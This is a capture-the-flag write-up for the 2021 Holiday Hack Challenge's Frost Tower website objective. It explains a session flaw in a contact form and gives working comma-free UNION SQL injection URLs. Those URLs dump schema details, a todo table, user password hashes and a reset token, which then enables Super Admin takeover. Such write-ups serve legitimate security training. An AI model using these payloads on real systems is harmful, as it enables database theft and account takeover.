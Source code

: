 # Objective 12: Frost Tower Website Checkup
**Location: Studio, Frost Tower, 16<sup>th</sup> Floor, https://staging.jackfrosttower.com/**

**Troll: Ingreta Tude**

**Hints provided by Ribb Bonbowford after completion of [Elf Code Python](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md)**

This objective is to perform a security assessment of the Frost Tower website with the [source code](https://download.holidayhackchallenge.com/2021/frosttower-web.zip) being provided.
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.

### Auth flaw

The application tracks the user's session in `session` (login name, user's role etc.).
It was found that a valid session is also set, if you complete the [contact form](https://staging.jackfrosttower.com/contact) whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.
```
app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength >= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
```            
### SQLi flaw

Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.
```
app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
```
As only caveat it has to be ensured, that the **comma character has to be avoided** in the SQL statement as the application splits up the query at the commas.
Furthermore it is important to note that "union" requires that the **number of columns on both sides match**.
Due to the fact, that the `union` database has 7 columns, it has to be ensured, that also on the right hand side of the `union` 7 columns have to be delivered.

This URL is the base for all following SQLi attacks:
```
https://staging.jackfrosttower.com/detail/0,0 union
```
During research a [very good explanation](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/) about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.


### Getting access to Jack Frosts todo list

We can obtain a list of all interesting tables in the MySQL database using this SQL statement:
```
select table_name from information_schema.tables;
```
This can be rewritten for our SQLi flaw:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select table_name from information_schema.tables)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This reveals, that in addition to the tables `emails` and `uniquecontact`, which are known as they are used in the application and in the provided schema of encontact `encontact_db.sql`, there is an additional table `todo`, which seems to be the todo list we need access to.

Using the SQL statement
```
select column_name from information_schema.columns where table_name="todo";
```
the list of columns in the table `todo` can be obtained.
This can be rewritten for the SQLi as follows:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select column_name from information_schema.columns where table_name="todo")d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
we can see, that this table consists out of 3 columns: `id`, `note`, `completed`.
The `note` column can then be extracted using
```
select note from todo;
```
Rewritten for the SQLi:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select note from todo)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This brings up Jack Frosts todo list:

 - Buy up land all around Santa's Castle
 - Build bigger and more majestic tower next to Santa's
 - Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history
- Dishearten Santa's elves and encourage defection to our cause
- Steal Santa's sleigh technology and  build a competing and way better Frosty present delivery vehicle
- Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem 
- Force Santa to cancel Christmas
- SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!! Bwahahahahaha!
- With Santa defeated, offer the old man a job as a **clerk** in the Frost Tower Gift Shop so we can keep an eye on him

---
### Bonus: Getting Super Admin privileges in the application


Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from users--
```
This contains for example:
 - Super Admin
 - root@localhost
 - $2b$10$JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i
 - 1
 - November 23rd, 2021 11:00:00
 - December 18th, 2021 7:05:17

---
- Admin
- admin@localhost
- $2b$10$FTkzq07Az57M.Q8jw7ehB..h5Vdc3Vw04zQzJIt294bgwg7.aV1GC
- 2
- December 3rd, 2021 11:00:00

This shows, that we have a "Super Admin" with the email address root@localhost defined in the system.

Next the "[forgot password](https://staging.jackfrosttower.com/forgotpass)" function of the application can be used to increase the privileges.
When resetting the password for a user, a random token is created and stored in the user database in the column `token`. If we are able to get hold of this token, we can change the password of the user and have full control.

The token for the Super Admin "root@localhost" can be retrieved using this URL:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a join (select 2)b join (select 3)c join (select token from users where email="root@localhost")d join (select 4)e join (select 5)f join (select 6)g;--
```

Using the URL https://staging.jackfrosttower.com/forgotpass/token/{retrieved token} it is possible to set a new password for the "Super Admin" user.
Being logged on as this user, a new personalized user with "Super Admin" privileges can be created.

**Achievement: Frost Tower Website Checkup**




